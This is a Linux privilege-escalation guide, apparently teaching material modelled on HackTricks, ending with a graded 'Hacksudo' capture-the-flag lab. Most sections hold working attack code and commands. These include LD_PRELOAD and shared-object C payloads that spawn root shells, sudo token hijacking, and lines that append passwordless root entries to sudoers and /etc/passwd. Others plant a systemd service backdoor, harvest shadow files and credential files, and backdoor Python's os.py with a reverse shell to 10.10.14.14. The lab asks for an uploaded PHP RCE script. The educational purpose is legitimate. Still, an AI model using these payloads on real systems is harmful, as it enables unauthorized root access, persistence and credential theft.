**LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

To avoid this mechanism being used as an attack vector for *suid/sgid* executable binaries, the loader ignores *LD_PRELOAD* if *ruid != euid*. For such binaries, only libraries in standard paths that are also *suid/sgid* will be preloaded.

If you find inside the output of **`sudo -l`** the sentence: ***env_keep+=LD_PRELOAD*** and you can call some command with sudo, you can escalate privileges.

```
Defaults        env_keep += LD_PRELOAD
```

Save as **/tmp/pe.c**

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Then **compile it** using:

```
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, **escalate privileges** running

```
sudo LD_PRELOAD=pe.so <COMMAND> #Use any command you can run with sudo
```

### SUID Binary – so injection

If you find some weird binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**. In order to do so you can execute:

```
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```

For example, if you find something like: *pen(“/home/user/.config/libcalc.so”, O_RDONLY) = -1 ENOENT (No such file or directory)* you can exploit it.

Create the file */home/user/.config/libcalc.c* with the code:

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Compile it using:

```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

And execute the binary.

### GTFOBins

[**GTFOBins**](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit
> sudo mysql -e '! /bin/sh'
> strace -o /dev/null /bin/sh
> sudo awk 'BEGIN {system("/bin/sh")}'

[https://gtfobins.github.io/](https://gtfobins.github.io/)

### FallOfSudo

If you can access `sudo -l` you can use the tool [**FallOfSudo**](https://github.com/Critical-Start/FallofSudo) to check if it finds how to exploit any sudo rule.

### Reusing Sudo Tokens

In the scenario where **you have a shell as a user with sudo privileges** but you don't know the password of the user, you can **wait him to execute some command using `sudo`**. Then, you can **access the token of the session where sudo was used and use it to execute anything as sudo** (privilege escalation).

Requirements to escalate privileges:

- You already have a shell as user "*sampleuser*"
- "*sampleuser*" have **used `sudo`** to execute something in the **last 15mins** (by default that's the duration of the sudo token that allows to use `sudo` without introducing any password)
- `cat /proc/sys/kernel/yama/ptrace_scope` is 0
- `gdb` is accessible (you can be able to upload it)

(You can temporarily enable `ptrace_scope` with `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` or permanently modifying `/etc/sysctl.d/10-ptrace.conf` and setting `kernel.yama.ptrace_scope = 0`)

If all these requirements are met, **you can escalate privileges using:** [**https://github.com/nongiach/sudo_inject**](https://github.com/nongiach/sudo_inject)

- The **first exploit** (`exploit.sh`) will create the binary `activate_sudo_token` in */tmp*. You can use it to **activate the sudo token in your session** (you won't get automatically a root shell, do `sudo su`):

```
bash exploit.sh
/tmp/activate_sudo_token
sudo su
```

- The **second exploit** (`exploit_v2.sh`) will create a sh shell in */tmp* **owned by root with setuid**

```
bash exploit_v2.sh
/tmp/sh -p
```

- The **third exploit** (`exploit_v3.sh`) will **create a sudoers file** that makes **sudo tokens eternal and allows all users to use sudo**

```
bash exploit_v3.sh
sudo su
```

### /var/run/sudo/ts/<Username>

If you have **write permissions** in the folder or on any of the created files inside the folder you can use the binary [**write_sudo_token**](https://github.com/nongiach/sudo_inject/tree/master/extra_tools) to **create a sudo token for a user and PID**.
For example if you can overwrite the file */var/run/sudo/ts/sampleuser* and you have a shell as that user with PID 1234, you can **obtain sudo privileges** without needing to know the password doing:

```
./write_sudo_token 1234 > /var/run/sudo/ts/sampleuser
```

### /etc/sudoers, /etc/sudoers.d

The file `/etc/sudoers` and the files inside `/etc/sudoers.d` configure who can use `sudo` and how. This files **by default can only be read by user root and group root**.
**If** you can **read** this file you could be able to **obtain some interesting information**, and if you can **write** any file you will be able to **escalate privileges**.

```
ls -l /etc/sudoers /etc/sudoers.d/
ls -ld /etc/sudoers.d/
```

If you can write you can abuse this permissions

```
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

Other way to abuse these permissions:

```
# makes it so every terminal can sudo  
echo "Defaults !tty_tickets" > /etc/sudoers.d/win
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /etc/sudoers.d/win
```

### DOAS

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```
permit nopass demo as root cmd vim
```

### Sudo Hijacking

If you know that a **user usually connects to a machine and uses `sudo`** to escalate privileges and you got a shell within that user context, you can **create a new sudo executable** that will execute your code as root and then the users command. Then, **modify the $PATH** of the user context (for example adding the new path in .bash_profile) so we the user executed sudo, your sudo executable is executed.

Note that if the user uses a different shell (not bash) you will need to modify other files to add the new path. For example[ sudo-piggyback](https://github.com/APTy/sudo-piggyback) modifies `~/.bashrc`, `~/.zshrc`, `~/.bash_profile`. You can find another example in [bashdoor.py](https://github.com/n00py/pOSt-eX/blob/master/empire_modules/bashdoor.py)

## Shared Library

### ld.so

The file `/etc/ld.so.conf` indicates **where are loaded the configurations files from**. Typically, this file contains the following path: `include /etc/ld.so.conf.d/*.conf`

That means that the configuration files from `/etc/ld.so.conf.d/*.conf` will be read. This configuration files **points to another folders** where **libraries** are going to be **searched** for. For example, the content of `/etc/ld.so.conf.d/libc.conf` is `/usr/local/lib`. **This means that the system will search for libraries inside `/usr/local/lib`**.

If for some reason **a user has write permissions** on any of the paths indicated: `/etc/ld.so.conf`, `/etc/ld.so.conf.d/`, any file inside `/etc/ld.so.conf.d/` or any folder indicated inside any config file inside `/etc/ld.so.conf.d/*.conf` he may be able to escalate privileges.
Take a look about **how to exploit this misconfiguration** in the following page:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/ld.so.conf-example](https://book.hacktricks.xyz/linux-unix/privilege-escalation/ld.so.conf-example)

### RPATH

```
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```

## Capabilities

Linux capabilities provide a **subset of the available root privileges to a process**. This effectively breaks up root **privileges into smaller and distinctive units**. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.
Read the following page to **learn more about capabilities and how to abuse them**:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

## Directory permissions

In a directory the **bit for execute** implies that the user affected can "**cd**" into the folder.
The **read** bit implies the user can **list** the **files**, and the **write** bit implies the user can **delete** and **create** new **files**.

## ACLs

ACLs are a second level of discretionary permissions, that **may override the standard ugo/rwx** ones. When used correctly they can grant you a **better granularity in setting access to a file or a directory**, for example by giving or denying access to a specific user that is neither the file owner, nor in the group owner (from [**here**](https://linuxconfig.org/how-to-manage-acls-on-linux)).
**Give** user "kali" read and write permissions over a file:

```
setfacl -m u:kali:rw file.txt
```

**Get** files with specific ACLs from the system:

```
getfacl -t -s -R -p /bin /etc /home /opt /root /sbin /usr /tmp 2>/dev/null
```

## Open shell sessions

In **old versions** you may **hijack** some **shell** session of a different user (**root**).
In **newest versions** you will be able to **connect** to screen sessions only of **your own user**. However, you could find **interesting information inside of the session**.

### screen sessions hijacking

**List screen sessions**

```
screen -ls
```

[](https://github.com/carlospolop/hacktricks/blob/master/.gitbook/assets/image (327).png)

**Attach to a session**

```
screen -dr <session> #The -d is to detacche whoever is attached to it
screen -dr 3350.foo #In the example of the image
```

### tmux sessions hijacking

Apparently this was a problem with **old tmux versions**. I wasn't able to hijack a tmux (v2.1) session created by root from a non-privileged user.

**List tmux sessions**

```
tmux ls
ps aux | grep tmux #Search for tmux consoles not using default folder for sockets
tmux -S /tmp/dev_sess ls #List using that socket, you can start a tmux session in that socket with: tmux -S /tmp/dev_sess
```

[](https://github.com/carlospolop/hacktricks/blob/master/.gitbook/assets/image (126).png)

**Attach to a session**

```
tmux attach -t myname #If you write something in this session it will appears in the other opened one
tmux attach -d -t myname #First detach the sessinos from the other console and then access it yourself
tmux -S /tmp/dev_sess attach -t 0 #Attach using a non-default tmux socket
```

Check **valentine box from HTB** for an example.

## SSH

### Debian OpenSSL Predictable PRNG - CVE-2008-0166

All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected by this bug.
This bug caused that when creating in those OS a new ssh key **only 32,768 variations were possible**. This means that all the possibilities can be calculated and **having the ssh public key you can search for the corresponding private key**. You can find the calculated possibilities here: https://github.com/g0tmi1k/debian-ssh

### SSH Interesting configuration values

- **PasswordAuthentication:** Specifies whether password authentication is allowed. The default is `no`.
- **PubkeyAuthentication:** Specifies whether public key authentication is allowed. The default is `yes`.
- **PermitEmptyPasswords**: When password authentication is allowed, it specifies whether the server allows login to accounts with empty password strings. The default is `no`.

#### PermitRootLogin

Specifies whether root can log in using ssh, default is `no`. Possible values:

- `yes` : root can login using password and private key
- `without-password` or `prohibit-password`: root can only login with private key
- `forced-commands-only`: Root can login only using privatekey cand if the commands options is specified
- `no` : no

#### AuthorizedKeysFile

Specifies files that contains the public keys that can be used for user authentication. I can contains tokens like `%h` , that will be replaced by the home directory. **You can indicate absolute paths** (starting in `/`) or **relative paths from the users home**. For example:

```
AuthorizedKeysFile    .ssh/authorized_keys access
```

That configuration will indicate that if you try to login with the **private** key of the user "**testusername**" ssh is going to compare the public key of your key with the ones located in `/home/testusername/.ssh/authorized_keys` and `/home/testusername/access`

#### ForwardAgent/AllowAgentForwarding

SSH agent forwarding allows you to **use your local SSH keys instead of leaving keys** (without passphrases!) sitting on your server. So, you will be able to **jump** via ssh **to a host** and from there **jump to another** host **using** the **key** located in your **initial host**.

You need to set this option in `$HOME/.ssh.config` like this:

```
Host example.com
  ForwardAgent yes
```

Notice that if `Host` is `*` every time the user jumps to a different machine that host will be able to access the keys (which is a security issue).

The file `/etc/ssh_config` can **override** this **options** and allow or denied this configuration.
The file `/etc/sshd_config` can **allow** or **denied** ssh-agent forwarding with the keyword `AllowAgentForwarding` (default is allow).

If you Forward Agent configured in an environment [**check here how to exploit it to escalate privileges**](https://book.hacktricks.xyz/linux-unix/privilege-escalation/ssh-forward-agent-exploitation).

## Interesting Files

### Profiles files

The file `/etc/profile` and the files under `/etc/profile.d/` are **scripts that are executed when a user run a new shell**. Therefore, if you can **write or modify any of the you can escalate privileges**.

```
ls -l /etc/profile /etc/profile.d/
```

If any weird profile script is found you should check it for **sensitive details**.

### Passwd/Shadow Files

Depending on the OS the `/etc/passwd` and `/etc/shadow` files may be using a different name or there may be a backup. Therefore it's recommended **find all of hem** and **check if you can read** them and **check if there are hashes** inside the files:

```
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```

In some occasions you can find **password hashes** inside the `/etc/passwd` (or equivalent) file

```
grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
```

#### Writable /etc/passwd

First generate a password with one of the following commands.

```
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.
WARNING: you might degrade the current security of the machine.

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

You should check if you can **write in some sensitive file**. For example, can you write to some **service configuration file**?

```
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```

For example, if the machine is running a **tomcat** server and you can **modify the Tomcat service configuration file inside /etc/systemd/,** then you can modify the lines:

```
ExecStart=/path/to/backdoor
User=root
Group=root
```

Your backdoor will be executed the next time that tomcat is started.

### Check Folders

The following folders may contain backups or interesting information: **/tmp**, **/var/tmp**, **/var/backups, /var/mail, /var/spool/mail, /etc/exports, /root** (Probably you won't be able to read the last one but try)

```
ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/ /root
```

### Weird Location/Owned files

```
#root owned files in /home folders
find /home -user root 2>/dev/null
#Files owned by other users in folders owned by me
for d in `find /var /etc /home /root /tmp /usr /opt /boot /sys -type d -user $(whoami) 2>/dev/null`; do find $d ! -user `whoami` -exec ls -l {} \; 2>/dev/null; done
#Files owned by root, readable by me but no world readable
find / -type f -user root ! -perm -o=r 2>/dev/null
#Files owned by me or world writable
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
#Writable files by each group I belong to
for g in `groups`;
      do printf "  Group $g:\n";
      find / '(' -type f -or -type d ')' -group $g -perm -g=w ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
      done
done
```

### Modified files in last mins

```
find / -type f -mmin -5 ! -path "/proc/*" ! -path "/sys/*" ! -path "/run/*" ! -path "/dev/*" ! -path "/var/lib/*" 2>/dev/null
```

### Sqlite DB files

```
find / -name '*.db' -o -name '*.sqlite' -o -name '*.sqlite3' 2>/dev/null
```

### *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .git-credentials, .rhosts, hosts.equiv, Dockerfile, docker-compose.yml files

```
fils=`find / -type f \( -name "*_history" -o -name ".sudo_as_admin_successful" -o -name ".profile" -o -name "*bashrc" -o -name "httpd.conf" -o -name "*.plan" -o -name ".htpasswd" -o -name ".git-credentials" -o -name "*.rhosts" -o -name "hosts.equiv" -o -name "Dockerfile" -o -name "docker-compose.yml" \) 2>/dev/null`Hidden files
```

### Hidden files

```
find / -type f -iname ".*" -ls 2>/dev/null
```

### **Script/Binaries in PATH**

```
for d in `echo $PATH | tr ":" "\n"`; do find $d -name "*.sh" 2>/dev/null; done
for d in `echo $PATH | tr ":" "\n"`; do find $d -type -f -executable 2>/dev/null; done
```

### **Web files**

```
ls -alhR /var/www/ 2>/dev/null
ls -alhR /srv/www/htdocs/ 2>/dev/null
ls -alhR /usr/local/www/apache22/data/
ls -alhR /opt/lampp/htdocs/ 2>/dev/null
```

### **Backups**

```
find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*backup*" -o -name "*\.bak" -o -name "*\.bck" -o -name "*\.bk" \) 2>/dev/nulll
```

### Known files containing passwords

Read the code of [**linPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), it searches for **several possible files that could contain passwords**.
**Other interesting tool** that you can use to do so is: [**LaZagne**](https://github.com/AlessandroZ/LaZagne) which is an open source application used to retrieve lots of passwords stored on a local computer for Windows, Linux & Mac.

### Logs

If you can read logs, you may be able to find **interesting/confidential information inside of them**. The more strange the log is, the more interesting will be (probably).
Also, some "**bad**" configured (backdoored?) **audit logs** may allow you to **record passwords** inside audit logs as explained in this post: https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/.

```
aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```

In order to **read logs the group** [**adm**](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/interesting-groups-linux-pe/#adm-group) will be really helpful.

### Shell files

```
~/.bash_profile # if it exists, read once when you log in to the shell
~/.bash_login # if it exists, read once if .bash_profile doesn't exist
~/.profile # if it exists, read once if the two above don't exist
/etc/profile # only read if none of the above exist
~/.bashrc # if it exists, read every time you start a new shell
~/.bash_logout # if it exists, read when the login shell exits
~/.zlogin #zsh shell
~/.zshrc #zsh shell
```

### Generic Creds Search/Regex

You should also check for files containing the word "**password**" in it's **name** or inside the **content**, also check for IPs and emails inside logs, or hashes regexps.
I'm not going to list here how to do all of this but if you are interested you can check the last checks that [**linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) perform.

## Writable files

### Python library hijacking

If you know from **where** a python script is going to be executed and you **can write inside** that folder or you can **modify python libraries**, you can modify the os library and backdoor it (if you can write where python script is going to be executed, copy and paste the os.py library).

To **backdoor the library** just add at the end of the os.py library the following line (change IP and PORT):

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Logrotate exploitation

There is a vulnerability on `logrotate`that allows a user with **write permissions over a log file** or **any** of its **parent directories** to make `logrotate`write **a file in any location**. If **logrotate** is being executed by **root**, then the user will be able to write any file in ***/etc/bash_completion.d/*** that will be executed by any user that login.
So, if you have **write perms** over a **log file** **or** any of its **parent folder**, you can **privesc** (on most linux distributions, logrotate is executed automatically once a day as **user root**). Also, check if apart of */var/log* there are more files being **rotated**.

*This vulnerability affects `logrotate` version `3.15.1` and below*

More detailed information about the vulnerability can be found in this page: https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition.

You can exploit this vulnerability with [**logrotten**](https://github.com/whotwagner/logrotten).

This vulnerability is very similar to [**CVE-2016-1247**](https://www.cvedetails.com/cve/CVE-2016-1247/) **(nginx logs),** so whenever you find that you can alter logs, check who is managing those logs and check if you can escalate privileges substituting the logs by symlinks.

### /etc/sysconfig/network-scripts/ (Centos/Redhat)

If, for whatever reason, a user is able to **write** an `ifcf-<whatever>` script to */etc/sysconfig/network-scripts* **or** it can **adjust** an existing one, then your **system is pwned**.

Network scripts, *ifcg-eth0* for example are used for network connections. The look exactly like .INI files. However, they are ~~sourced~~ on Linux by Network Manager (dispatcher.d).

In my case, the `NAME=` attributed in these network scripts is not handled correctly. If you have **white/blank space in the name the system tries to execute the part after the white/blank space**. Which means; **everything after the first blank space is executed as root**.

For example: */etc/sysconfig/network-scripts/ifcfg-1337*

```
NAME=Network /bin/id
ONBOOT=yes
DEVICE=eth0
```

(*Note the black space between Network and /bin/id*)

**Vulnerability reference:** [**https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f**](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

### **init, init.d, systemd, and rc.d**

`/etc/init.d` contains **scripts** used by the System V init tools (SysVinit). This is the **traditional service management package for Linux**, containing the `init` program (the first process that is run when the kernel has finished initializing¹) as well as some infrastructure to start and stop services and configure them. Specifically, files in `/etc/init.d` are shell scripts that respond to `start`, `stop`, `restart`, and (when supported) `reload` commands to manage a particular service. These scripts can be invoked directly or (most commonly) via some other trigger (typically the presence of a symbolic link in `/etc/rc?.d/`). (From [here](https://askubuntu.com/questions/5039/what-is-the-difference-between-etc-init-and-etc-init-d#:~:text=%2Fetc%2Finit contains configuration files,the status of a service.))
Other alternative to this folder is `/etc/rc.d/init.d` in Redhat

`/etc/init` contains **configuration** files used by **Upstart**. Upstart is a young **service management package** championed by Ubuntu. Files in `/etc/init` are configuration files telling Upstart how and when to `start`, `stop`, `reload` the configuration, or query the `status` of a service. As of lucid, Ubuntu is transitioning from SysVinit to Upstart, which explains why many services come with SysVinit scripts even though Upstart configuration files are preferred. In fact, the SysVinit scripts are processed by a compatibility layer in Upstart. (From [here](https://askubuntu.com/questions/5039/what-is-the-difference-between-etc-init-and-etc-init-d#:~:text=%2Fetc%2Finit contains configuration files,the status of a service.))

**systemd** is a **Linux initialization system and service manager that includes features like on-demand starting of daemons**, mount and automount point maintenance, snapshot support, and processes tracking using Linux control groups. systemd provides a logging daemon and other tools and utilities to help with common system administration tasks. (From [here](https://www.linode.com/docs/quick-answers/linux-essentials/what-is-systemd/#:~:text=The %2Frun%2Fsystemd%2Fsystem,anywhere else in the system.))
Files that ships in packages downloaded from distribution repository go into `/usr/lib/systemd/`. Modifications done by system administrator (user) go into `/etc/systemd/system/`.

## Other Tricks

### NFS Privilege escalation

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

### Escaping from restricted Shells

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash)

### Cisco - vmanage

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/cisco-vmanage](https://book.hacktricks.xyz/linux-unix/privilege-escalation/cisco-vmanage)

### Kernel Security Protections

- https://github.com/a13xp0p0v/kconfig-hardened-check
- https://github.com/a13xp0p0v/linux-kernel-defence-map

## More help

[Static impacket binaries](https://github.com/ropnop/impacket_static_binaries)

## Linux/Unix Privesc Tools

#### **Best tool to look for Linux local privilege escalation vectors:** [**LinPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

**LinEnum**: https://github.com/rebootuser/LinEnum(-t option)
**Enumy**: https://github.com/luke-goddard/enumy
**Unix Privesc Check:** http://pentestmonkey.net/tools/audit/unix-privesc-check
**Linux Priv Checker:** [www.securitysift.com/download/linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py)
**BeeRoot:** https://github.com/AlessandroZ/BeRoot/tree/master/Linux
**Kernelpop:** Enumerate kernel vulns ins linux and MAC https://github.com/spencerdodd/kernelpop
**Mestaploit:** ***multi/recon/local_exploit_suggester***
**Linux Exploit Suggester:** https://github.com/mzet-/linux-exploit-suggester
**EvilAbigail (physical access):** https://github.com/GDSSecurity/EvilAbigail
**Recopilation of more scripts**: https://gh-dark.rauchg.now.sh/1N3/PrivEsc/tree/master/linux

### Bibliography

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://payatu.com/guide-linux-privilege-escalation/
https://pen-testing.sans.org/resources/papers/gcih/attack-defend-linux-privilege-escalation-techniques-2016-152744
http://0x90909090.blogspot.com/2015/07/no-one-expect-command-execution.html
https://touhidshaikh.com/blog/?p=827
[https://github.com/sagishahar/lpeworkshop/blob/master/Lab%20Exercises%20Walkthrough%20-%20Linux.pdf](https://github.com/sagishahar/lpeworkshop/blob/master/Lab Exercises Walkthrough - Linux.pdf)
https://github.com/frizb/Linux-Privilege-Escalation
https://github.com/lucyoa/kernel-exploits
https://github.com/rtcrowley/linux-private-i

## Exercise

### (10 pt) Hacksudo

In this challenge, you need to download the following virtual machine to finish the challenges.

The box was created with `Virtualbox`. Upon booting up use `netdiscover` tool to find the IP address. This is the target address based on whatever settings you have. You should verify the address just in case.

You don't need to answer all questions in order. Skip some questions may not affect the next steps.

Download: [https://mega.nz/file/ix9VnA7Y#7LM1LXBta_kAeNrajXGkQhmwfbr5fIaQHykkWEPBjZY](https://mega.nz/file/ix9VnA7Y#7LM1LXBta_kAeNrajXGkQhmwfbr5fIaQHykkWEPBjZY)

Mirror: [https://pan.baidu.com/s/1D-YEa6cr3rcWXv49HgZtSw](https://pan.baidu.com/s/1D-YEa6cr3rcWXv49HgZtSw) (Code: 1337)

#### Setup

Environment setup should use `VirtualBox` history version (VirtualBox 6.1.28 has a bug with Hyper-V, I used VirtualBox 6.0.24 and worked properly). You should setup `Network` as the following:



The virtual image should enter the following promption:

```bash
Debian GNU/Linux 10 hacksudo fog tty1
eth0: 192.168.xx.xxx
hacksudo login: _
```

The second line is the ip address of virtual machine.

Open your web browser, you can find this page in VM's ip address:


You are done with configuration, now you can hack the machine and solve the challenges!

**If the ip address hasn't shown up, you can find it as below:**

Open you terminal (powershell.exe in Windows), and use `ipconfig /all` to find your `Host-only NET` ip address.


Use any tool to scan the ip `192.168.xx.0/24` and you can find the virtual machine ip address. Otherwise, you can also use `arp -a` to find your `Host-only Network` address, and usually VM's ip address is followed.



#### (1 pt) Port scan

After the port scan, you should find several services running in the box. What's the version of the `mysql` service?

Answer: `x.x.x-xx.x.xx-MariaDB-x+debxxxx` (replace all x to your answer)

*Hint: you can use nmap for port scanning.*

#### (1 pt) Web source code

Access the website on port `80`. You can find here's some hint for the subsequent steps. What's the GitHub repo address you found in the source code?

Answer: `https://github.com/xxxxxxxx/xxxxxxxxxxx` (replace all x to your answer)

*Hint: press F12 on the keyboard to open the Developer's Tools to view the source code (may vary for different browsers).*

#### (1 pt) Web directory discover

Using web directory scanning, you can find a `txt` file under the website. What's the name of this `txt` file?

Answer: `xxxx.txt` (replace all x to your answer)

*Hint: gobuster and dirbuster are both good web directory/file discovery tools.*

#### (1 pt) CMS vulnerability

The CMS used in the website is `CMS-MadeSimple`. However, this CMS can be vulnerable in some versions. What's the version of CMS?

Answer: `x.x.x` (replace all x to your answer)

*Hint: you can use whatweb to find out the version of services.*

#### (1 pt) Exploit CMS

Now, using the vulnerability to find the username and the hashed password of the CMS. It's hard to break the hash string, but you can use this username to break other services on the server. The `txt` file you found above would help you to get the password for the `ftp` service on port `21`.

What's the password (in plain text)?

Answer: `xxxxxx` (replace all x to your answer)

*Hint: hydra is a widely used tool for password cracking.*

#### (1 pt) FTP and unzip

Using the previous username and password, you can log into the FTP server. You may notice there's a `zip` file on the server. You need to break the password of the `zip` file.

What's the password for the `zip` file?

Answer: `xxxxxx` (replace all x to your answer)

*Hint: to crack the password of the zip files, you can check JohnTheRipper.*

#### (1 pt) Caesar Cipher

After extracting the `hacksudoSTEGNO.wav`, you need to find what's inside this file. Recall what you've got till now, and find the CMS password.

What's the password for CMS?

Answer: `xxxxxxxxxxxx` (replace all x to your answer)

*Hint: CyberChef contains many useful cryptography tools.*

#### (1 pt) Upload RCE script

You've got the CMS! Now you can enjoy accessing all website pages and put your files on the website. Why not let us dig deeper?

Upload a PHP script to give you shell access.

What's the first line of `flag2.txt` on the server?

Answer: `xxx xxxxxxxxxxxx xxxxx xxx xxx xxx xxxxx xxxxxx!!!` (replace all x to your answer)

*Hint: here are some upload limits on the server. Find out how to bypass them.*

*Hint: after uploading your RCE script, you can generate a reversed shell to get a pty shell (which would simplify your next steps).*

#### (1 pt) Local privilege escalation

User `isro` is your first target. Attack and switch to user `isro`. View the files of `isro`. What's the content of `user.txt`?

Answer: `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` (replace all x to your answer)

*Hint: /etc/shadow is a sensitive file and may contain a user hashed password.*

#### (1 pt) Root privilege escalation

The final step: get `root` privilege. What's the content in the `root.txt`?

Answer: `flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}` (replace all x to your answer)

*Hint: sudo has some suid things and you should take a look at them.*
